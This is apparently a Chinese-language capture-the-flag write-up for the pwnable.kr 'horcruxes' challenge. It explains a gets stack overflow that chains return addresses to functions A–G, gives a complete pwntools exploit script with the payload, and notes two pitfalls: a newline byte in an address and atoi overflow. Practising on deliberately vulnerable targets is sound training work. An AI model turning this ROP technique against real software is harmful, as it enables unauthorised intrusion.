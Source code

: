 题目思路是拿到a,b,c,d,e,f,g的值，来得到flag

a,b,c,d,e,f,g随机

直接绕过判断是不行的，main里的seccomp把可绕过的地址都封死了

还是利用gets栈溢出，去调用A,B,C,D,E,F,G的函数来得到对应值，然后再跳回来输入对应的EXP

**Exp**

```python
#coding=utf-8
from pwn import *
context(arch="amd64",os="Linux",log_level="DEBUG")

shell = ssh(host="pwnable.kr",user="horcruxes",port=2222,password="guest")

#shell.download_file("./horcruxes")

io=shell.connect_remote("0.0.0.0",9032)

payload="1"
#io.sendlineafter("guess the password!","cat: password: Permission denied")
io.recv()
io.sendline(payload)

a_addr=0x0809FE4B
b_addr=0x0809FE6A
c_addr=0x0809FE89
d_addr=0x0809FEA8
e_addr=0x0809FEC7
f_addr=0x0809FEE6
g_addr=0x0809FF05
call_ropme_addr=0x0809FFFC

payload='a'*(0x74+0x4)+p32(a_addr)+p32(b_addr)+p32(c_addr)+p32(d_addr)+p32(e_addr)+p32(f_addr)+p32(g_addr)+p32(call_ropme_addr)
#当函数A()执行结束之后，执行return指令的地址应就是后4个bytes，所以直接将地址罗列在padding数据之后，函数会一个一个的进行跳转

io.sendlineafter("How many EXP did you earned? :",payload)
exp=0
io.recvline()
for i in range(7):
    re = io.recvline()
    u = int(re.strip('\n').split('+')[1][:-1])
    print u
    exp += u
print "Exp: "+str(exp)
io.sendlineafter("Select Menu:","1")
io.sendlineafter("How many EXP did you earned? :",str(exp))
io.interactive()
```

一个坑点是：

ropme的地址是0x080A0009 有个0xA0 相当于换行符 所以会被gets截断，所以绕一步用main里call ropme的地址做替换

另一个坑点是：

atoi函数将int转化为字符串，如果数字超过int范围转化失败返回-1，所以要多试几遍才能出flag.....